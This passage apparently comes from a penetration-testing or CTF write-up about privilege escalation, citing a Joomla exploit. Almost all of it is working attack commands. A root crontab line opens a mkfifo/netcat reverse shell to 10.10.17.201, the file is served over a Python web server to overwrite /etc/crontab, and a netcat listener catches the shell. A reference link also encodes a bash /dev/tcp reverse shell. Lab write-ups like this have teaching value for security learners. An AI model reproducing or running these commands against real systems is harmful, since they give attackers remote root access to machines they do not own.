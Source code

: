 ##### Create a malicious crontab

```bash
cp /etc/crontab .
echo '* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.201 1234 >/tmp/f' >> crontab
```

##### Serve malicious crontab

```bash
python	-m SimpleHTTPServer 80	// Python
python3	-m http.server 80		// Python3
```

input:

```bash
url = "http://10.10.17.201/crontab"
output = "/etc/crontab"
```

##### Listen for connection

	rlwrap nc -lvnp 1234

# References

<iframe width="560" height="315" src="https://www.youtube.com/embed/Paajc2Dupms" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html

[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261

[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency